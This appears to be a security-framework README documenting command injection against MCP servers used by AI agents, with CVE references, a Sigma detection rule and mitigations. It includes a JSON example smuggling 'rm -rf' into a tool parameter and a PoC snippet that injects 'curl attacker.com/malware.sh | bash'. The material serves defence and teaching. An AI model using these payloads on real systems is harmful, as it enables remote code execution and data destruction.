

# SAFE-T1101: Command Injection

## Overview
**Tactic**: Execution (ATK-TA0002)  
**Technique ID**: SAFE-T1101  
**Severity**: Critical  
**First Observed**: June 2025 (Discovered by JFrog Security, with initial disclosure of CVE-2025-6514)  
**Last Updated**: 2025-07-15

## Description
Command Injection is an attack technique where adversaries exploit unsanitized user inputs in MCP server implementations to execute arbitrary operating system commands, often leading to remote code execution (RCE). This vulnerability arises when MCP servers process untrusted inputs, such as tool parameters or query strings, without proper validation or escaping, allowing attackers to inject malicious commands that are executed with the privileges of the MCP process.

In MCP environments, command injection typically exploits the integration between LLMs and external tools, where tool invocations may involve executing shell commands or system calls. Adversaries leverage this by crafting malicious payloads that break out of intended command structures, enabling them to run arbitrary code on the host system. This technique exploits classic software vulnerabilities adapted to AI agent workflows, where dynamic tool execution creates additional attack surfaces ([OWASP Top 10 for LLM Applications, 2025](https://genai.owasp.org/llm-top-10/); [Threats in LLM-Powered AI Agents Workflows, arXiv:2506.23260, 2025](https://arxiv.org/html/2506.23260v1)).

## Attack Vectors
- **Primary Vector**: Unsanitized tool parameters in MCP invocations leading to shell command injection
- **Secondary Vectors**: 
  - Query string manipulation in MCP API endpoints
  - Malicious payloads in tool descriptions or schemas that trigger command execution
  - **Proxy Command Injection**: Exploitation of MCP proxies like mcp-remote, where connection initiation triggers injectable commands ([JFrog Security, CVE-2025-6514, 2025](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/))
  - Supply chain attacks distributing vulnerable MCP implementations

## Technical Details

### Prerequisites
- Access to MCP API endpoints or tool invocation interfaces
- Knowledge of MCP server implementation details, such as command execution paths
- Vulnerable MCP server version without input sanitization

### Attack Flow


1. **Initial Stage**: Attacker identifies vulnerable MCP endpoint or tool parameter
2. **Distribution**: Malicious payload delivered through API calls or agent interactions
3. **Installation**: Not applicable (direct exploitation)
4. **Exploitation Stage**: Unsanitized input leads to command execution
5. **Post-Exploitation**: Attacker executes arbitrary code, potentially escalating privileges or exfiltrating data

For a detailed visual, see the inline Attack Flow Diagram above.

### Example Scenario
```json
{
  "tool": "execute_shell",
  "parameters": {
    "command": "ls -l; rm -rf /important_data"
  }
}
```

### Proof of Concept Examples
We provide examples to demonstrate and detect this technique:

1. **[PoC Exploitation Script](examples/command-injection-poc.py)**: Demonstrates injection via vulnerable MCP proxy, simulating CVE-2025-6514
2. **[Detection Script](examples/command-injection-detector.py)**: Scans MCP logs for injection patterns; usage: python examples/command-injection-detector.py [mcp-logs.json]

```python
# Example PoC snippet
import requests

payload = " benign_command; curl attacker.com/malware.sh | bash"
response = requests.post("http://vulnerable-mcp-server/tool/execute", json={"cmd": payload})
print(response.text)
```

### Advanced Attack Techniques (2024-2025 Research)

#### Agent Tool Command Injection (2024 Research)
According to research from [LRQA Cyber Labs, 2024](https://www.lrqa.com/en/cyber-labs/vulnerabilities-in-ai-agents/), attackers exploit AI agent tools with command injection:

1. **Parameter Injection**: Crafting tool inputs that escape command contexts ([LRQA, 2024](https://www.lrqa.com/en/cyber-labs/vulnerabilities-in-ai-agents/))
2. **Multi-Stage Payloads**: Chaining injections for RCE ([arXiv:2507.06850, 2025](https://arxiv.org/html/2507.06850v3))

#### MCP-Specific RCE Evolution (2025)
##### Proxy-Based Injection
[JFrog's discovery of CVE-2025-6514 in mcp-remote, 2025](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/) enables:

- Connection-initiated command execution
- Arbitrary OS commands on client machines

##### Cross-Agent Escalation
Chaining injections across multiple agents for broader compromise ([Dark Reading, 2025](https://www.darkreading.com/application-security/agentic-ai-risky-mcp-backbone-attack-vectors)).

## Impact Assessment
- **Confidentiality**: High - Potential data exfiltration via executed commands
- **Integrity**: High - File modification or code execution
- **Availability**: High - Possible DoS through destructive commands
- **Scope**: Local - Affects the compromised MCP host and connected systems

### Current Status (2025)
According to security researchers, organizations are implementing mitigations:
- Input sanitization libraries ([OWASP, 2025](https://genai.owasp.org/llm-top-10/))
- Vulnerability scanning tools for MCP ([JFrog, 2025](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/))

However, new vectors continue to appear, as seen in Anthropic's MCP vulnerability ([The Hacker News, 2025](https://thehackernews.com/2025/07/critical-vulnerability-in-anthropics.html)).

## Detection Methods

### Indicators of Compromise (IoCs)
- Unexpected shell commands in MCP logs
- Anomalous process creation from MCP server
- Network connections to known malicious domains post-injection

### Detection Rules

**Important**: Rules are examples only. Attackers evolve techniques; organizations should:
- Use AI-based anomaly detection for novel patterns
- Update rules via threat intelligence
- Layer detections (e.g., pattern + semantic analysis)
- Consider tool parameter semantics

#### AI-Based Anomaly Detection Examples
```yaml
# Example: Semantic analysis
- name: command_injection_anomaly
  type: ai_analysis
  model: security-bert
  indicators:
    - "Suspicious command separators in tool parameters"
    - "Execution of non-whitelisted binaries"

# Example: Behavioral analysis
- name: process_creation_anomaly
  type: statistical_analysis
  baseline_window: 7_days
  indicators:
    - "Unusual child processes from MCP server"
```

```yaml
# EXAMPLE SIGMA RULE - Not comprehensive
title: MCP Command Injection Detection
id: a1b2c3d4-e5f6-7890-abcd-ef1234567890
status: experimental
description: Detects potential command injection in MCP tool parameters
author: SAFE-MCP Team
date: 2025-07-15
references:
  - https://github.com/safe-mcp/techniques/SAFE-T1101
logsource:
  product: mcp
  service: tool_execution
detection:
  selection:
    tool_parameter:
      - '*; *'
      - '*| *'
      - '*&& *'
      - '*` *`'
  condition: selection
falsepositives:
  - Legitimate complex commands
level: high
tags:
  - attack.execution
  - attack.t1059
  - safe.t1101
```

### Behavioral Indicators
- Unexpected file modifications post-tool invocation
- Anomalous network activity from MCP process

## Mitigation Strategies

### Preventive Controls
1. **[SAFE-M-5: Content Sanitization](../../mitigations/SAFE-M-5/README.md)**: Sanitize all tool parameters before command execution ([OWASP, 2025](https://genai.owasp.org/llm-top-10/))
2. **[SAFE-M-29: Safe Command Execution APIs](../../mitigations/SAFE-M-29/README.md)**: Use parameterized command execution libraries to prevent injection
3. **[SAFE-M-9: Sandboxed Testing](../../mitigations/SAFE-M-9/README.md)**: Isolate MCP servers in containers with restricted privileges

### Detective Controls
1. **[SAFE-M-10: Automated Scanning](../../mitigations/SAFE-M-10/README.md)**: Scan for known vulnerable MCP versions
2. **[SAFE-M-11: Behavioral Monitoring](../../mitigations/SAFE-M-11/README.md)**: Monitor for anomalous command executions

### Security Tool Integration
MCP-Scan: Detects command injection vectors ([Invariant Labs, 2025](https://invariantlabs.ai/blog/introducing-mcp-scan))

```bash
mcp-scan scan --check-injection
```

### Response Procedures
1. **Immediate Actions**:
   - Isolate affected MCP server
   - Kill suspicious processes
2. **Investigation Steps**:
   - Analyze logs for injection patterns
   - Trace payload source
3. **Remediation**:
   - Patch vulnerable components
   - Update sanitization rules

## Real-World Incidents (June-July 2025)

### mcp-remote Command Injection (CVE-2025-6514, June 2025)
[JFrog Disclosure](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/): Allowed arbitrary OS command execution, affecting LLM clients.

### Anthropic MCP RCE (July 2025)
[The Hacker News](https://thehackernews.com/2025/07/critical-vulnerability-in-anthropics.html): Browser-based RCE in MCP Inspector.

## Sub-Techniques
### SAFE-T1101.001: Shell Command Injection
Focus on OS shell escapes in tool parameters.

### SAFE-T1101.002: API Endpoint Injection
Exploitation of MCP API query strings.

## Related Techniques
- [SAFE-T1102](../SAFE-T1102/README.md): Prompt Injection - Often combined for multi-stage attacks
- [SAFE-T1005](../SAFE-T1005/README.md): Exposed Endpoint Exploit - Enables initial access for injection

## References
- [Model Context Protocol Specification](https://modelcontextprotocol.io/specification)
- [OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [Threats in LLM-Powered AI Agents Workflows - arXiv, 2025](https://arxiv.org/html/2506.23260v1)
- [CVE-2025-6514: Critical MCP-Remote RCE Vulnerability - JFrog, 2025](https://jfrog.com/blog/2025-6514-critical-mcp-remote-rce-vulnerability/)
- [Vulnerabilities in AI Agents - LRQA, 2024](https://www.lrqa.com/en/cyber-labs/vulnerabilities-in-ai-agents/)
- [The Dark Side of LLMs: Agent-based Attacks - arXiv:2507.06850, 2025](https://arxiv.org/html/2507.06850v3)
- [Agentic AI's Risky MCP Backbone - Dark Reading, 2025](https://www.darkreading.com/application-security/agentic-ai-risky-mcp-backbone-attack-vectors)
- [Critical Vulnerability in Anthropic's MCP - The Hacker News, 2025](https://thehackernews.com/2025/07/critical-vulnerability-in-anthropics.html)

## MITRE ATT&CK Mapping
- [T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)

## Version History
| Version | Date | Changes | Author |
|---------|------|---------|--------|
| 1.0 | 2025-07-15 | Initial documentation | Frederick Kautz |

## Contributing
Submit updates, new incidents, or mitigations via GitHub issues/PRs at [fkautz/safe-mcp]. Ensure claims are verified with sources.